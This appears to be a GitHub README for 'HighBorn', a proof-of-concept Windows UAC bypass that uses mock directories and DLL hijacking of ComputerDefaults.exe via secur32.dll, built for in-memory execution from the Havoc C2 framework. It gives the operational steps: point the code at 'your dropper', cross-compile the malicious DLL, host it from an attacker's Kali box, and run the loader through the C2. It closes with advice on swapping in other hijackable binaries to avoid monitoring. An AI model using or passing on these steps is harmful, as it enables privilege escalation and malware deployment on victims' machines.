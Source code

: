 Windows UAC Bypass utilizing mock directories and DLL Hijacking. This is a tool that I created to use with the "dotnet inline-execution" command on Havoc C2, but it can be used with any C2 that has in-memory execution. This was just a quick and dirty POC.

**Usage:**

Open the highborn.c file in a text editor on your Kali box.

Replace the file path with the file path of the executable that you want to open (ie your dropper).

Compile HighBorn.c into a dll.

**linux command: "x86_64-w64-mingw32-gcc -shared -o secur32.dll highborn.c -lcomctl32 -Wl,--subsystem,windows"**

Host the dll on your Kali box.

command: python3 -m http.server PORT

Compile on Kali

**apt install mono-complete -y
mcs -out:HighBorn.exe Highborn.cs**

Execute on C2

**command: dotnet inline-execute HighBorn.exe**

Replace the ComputerDefaults.exe and secur32.dll with other EXEs and DLLs as you find DLLs that can be hijacked. ComputerDefaults is a popular one so it is probably monitored pretty closely.
